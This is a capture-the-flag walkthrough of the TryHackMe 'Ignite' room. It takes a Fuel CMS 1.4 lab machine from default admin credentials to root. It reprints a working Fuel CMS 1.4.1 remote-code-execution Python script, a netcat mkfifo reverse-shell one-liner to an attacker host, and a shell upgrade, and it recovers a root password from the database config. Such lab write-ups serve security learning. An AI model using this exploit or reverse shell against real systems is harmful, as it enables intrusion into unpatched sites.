




# Ignite

The [TryHackMe: Ignite](https://tryhackme.com/room/ignite) room is beginner friendly and really easy room. It took barely 15 minutes for me to get the root flag. It is based on a simple RCE that can be found out after some googling and that is it.


### Initial Enumeration

The first that we must do after starting the machine is to access the machine's IP address and run a simple nmap scan to check the open ports. On visiting the IP address we land up on a Fuel CMS Getting Started page.



This gives us a hint to look for an exploit for `Fuel CMS v1.4`. Also, we can take a look at the nmap result:

```
┌─[tester@parrot-virtual]─[~/Downloads/ignite]
└──╼ $nmap -A 10.10.157.210
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-18 21:52 IST
Nmap scan report for 10.10.157.210
Host is up (0.20s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-title: Welcome to FUEL CMS

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.70 seconds
```

We can see that there is no port open other than 80. We can also try to access the `/fuel` directory that we obtained from the nmap scan.



The `/fuel` directory takes us to a login page where we can try some simple default login credential and turns out that by username and password as `admin` we can access the CMS dashboard as admin.



Now that we have access to the dashboard as an admin we can look for some exploit. And after some googling we can find a python script for [Fuel CMS v1.4.1 Remote Code Execution](https://www.exploit-db.com/exploits/47138). The script looks like:

```
import requests
import urllib
 
url = "http://target_IP:80"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start
 
while 1:
    xxxx = raw_input('cmd:')
    burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
    
    r = requests.get(burp0_url)
 
    html = ""
    htmlcharset = r.text.find(html)
 
    begin = r.text[0:20]
    dup = find_nth_overlapping(r.text,begin,2)
 
    print r.text[0:dup]
```

We need to just change the target IP value and execute the script.

```
┌─[tester@parrot-virtual]─[~/Downloads/ignite]
└──╼ $python exploit.py 
cmd:whoami
systemwww-data

<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">

<h4>A PHP Error was encountered</h4>

<p>Severity: Warning</p>
<p>Message:  preg_match(): Delimiter must not be alphanumeric or backslash</p>
<p>Filename: controllers/Pages.php(924) : runtime-created function</p>
<p>Line Number: 1</p>


	<p>Backtrace:</p>
			<p style="margin-left:10px">
			File: /var/www/html/fuel/modules/fuel/controllers/Pages.php(924) : runtime-created function<br />
			Line: 1<br />
			Function: preg_match			</p>

			<p style="margin-left:10px">
			File: /var/www/html/fuel/modules/fuel/controllers/Pages.php<br />
			Line: 932<br />
			Function: array_filter			</p>

			<p style="margin-left:10px">
			File: /var/www/html/index.php<br />
			Line: 364<br />
			Function: require_once			</p>
</div>
```

We do get an RCE and as shown above after running the command `whoami` it returns a response of `systemwww-data`. But along with that we get an HTML code as well in the result along with the desired output. To resolve this issue, we can pop another shell using netcat. 

To do so, we need to first start a listener on our attacker machine using the command: `nc -nvlp 4444` and run the following command on the target machine: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_machine_IP> 4444 >/tmp/f
```

And we get a proper shell on our listener.

```
┌─[tester@parrot-virtual]─[~/Downloads/affinity]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.157.210] 50814
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html
```

The next thing we need to do is go to `/home` directory and look for the user flag.

```
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root     root     4096 Jul 26  2019 .
drwxr-xr-x 24 root     root     4096 Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4096 Jul 26  2019 www-data
$ cd www-data
$ ls -la
total 12
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
$ cat flag.txt
```

And there we get the user flag!

### Privilege Escalation

The next task is to get the root flag. For this, we can first check the command that we can run with sudo privilege with the command `sudo -l` but we get an error.

```
$ sudo -l
sudo: no tty present and no askpass program specified
```

To resolve this issue, we need to gain a tty which can be obtained using a python one-liner:

```
$python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/home/www-data$ 
www-data@ubuntu:/home/www-data$ sudo -l
sudo -l
[sudo] password for www-data:
```

But here we are asked for `www-data`'s password which we don't know. So, we need to look for some other option. 

We can check the `/etc/crontab` to see if there is some cron job running but even there we don't find anything useful.

```
www-data@ubuntu:/home$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

We can also check for files that have their SUID bit set.

```
www-data@ubuntu:/home$ find / -perm -2000 2> /dev/null
find / -perm -2000 2> /dev/null
/var/crash
/var/metrics
/var/mail
/var/local
/var/cache/man
/var/cache/man/ca
/var/cache/man/he
/var/cache/man/cs
/var/cache/man/ml
```

But even here we don't find any useful file. We can also look around the system for some file that might be a bit suspicious and also check the `/var/www/html` directory to check for some useful information. Meanwhile, we can also go back to the homepage of the machine as it had instructions related to installation of the CMS and there we can find information related to database containing passwords.



So, we can try to  read the file `/var/www/html/fuel/application/config/database.php` and see of we can find some useful information over there. And to no surprise, we can find the password for `root ` over there.

```
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'XXXXXX',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

We can now simply switch user to root and read root flag.

```
www-data@ubuntu:/home/www-data$ su 
su
Password:
root@ubuntu:/home/www-data# whoami
root
root@ubuntu:/home/www-data# cat /root/root.txt
cat /root/root.txt
```

With this we got the root flag and completed the room!


### Reference Links

1. TryHackMe-Ignite: https://tryhackme.com/room/ignite
2. Fuel CMS v1.4.1 RCE: https://www.exploit-db.com/exploits/47138
3. Reverse Shell Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
4. Python one-liners: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/